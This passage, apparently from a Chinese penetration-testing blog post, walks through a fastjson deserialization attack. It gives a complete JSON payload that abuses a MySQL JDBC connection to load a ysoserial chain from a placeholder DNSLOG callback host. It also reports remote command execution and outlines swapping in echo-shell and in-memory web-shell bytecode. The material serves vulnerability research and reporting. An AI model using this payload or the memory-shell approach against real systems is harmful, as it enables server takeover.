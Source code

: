 ```
with open(r'fastjson1268.bin','rb') as f:    file_content = f.read()return file_content
```  
  
![](https://mmbiz.qpic.cn/mmbiz_png/zBdps5HcBF2nanSbDREKQzeAzvK5Ta0ibxNDdO3ZibY0pa0ZBIsogrZaZ0vWAuIcpfujSMJiaQiaibCT8RG3RAwt8lA/640?wx_fmt=png&from=appmsg "")  
  
  
将生成的fastjson1268.bin放到server.py文件同级目录中，运行server.py文件  
  
  
user填入yso_xxx就能触发server.py的get_yso_content函数，此时fastjson测试payload为  
  
```
{  "@type": "java.lang.AutoCloseable",  "@type": "com.mysql.jdbc.JDBC4Connection",  "hostToConnectTo": "YOUR_DNSLOG",  "portToConnectTo": 7777,  "info": {    "user": "yso_URLDNS_http://YOUR_DNSLOG",    "password": "pass",    "statementInterceptors": "com.mysql.jdbc.interceptors.ServerStatusDiffInterceptor",    "autoDeserialize": "true",    "NUM_HOSTS": "1"  },  "databaseToConnectTo": "dbname",  "url": ""}
```  
  
很幸运系统成功触发了命令执行ping xx.dnslog.com  
  
  
到此就完成了RCE，证明漏洞危害，提交报告。  
  
## 反序列化改造  
  
  
查看Y4大佬给出的利用链可以发现，其使用的是  
TemplatesImpl  
进行动态加载字节码，那么直接将字节码改为回显马和内存马也是可以的，我将回显马编译为class文件，然后读取该文件，传入到  
_bytecodes中  
  
  
![](https://mmbiz.qpic.cn/mmbiz_png/zBdps5HcBF2nanSbDREKQzeAzvK5Ta0ibgTe7GEcbMPgh80pxGOwyG3P6QdrFgkbH7I1RbciboB1IAdqO2PRiaccw/640?wx_fmt=png&from=appmsg "")  
  
  
![](https://mmbiz.qpic.cn/mmbiz_png/zBdps5HcBF2nanSbDREKQzeAzvK5Ta0ibCtuFu7fJTk0TvNoM9DQMeTkRgzadXnBJECW8tDwzox1qx8kibYdM9yA/640?wx_fmt=png&from=appmsg "")  
  
```
作者：脚*猪
原文链接：https://xz.aliyun.com/news/17489
```  
  
  
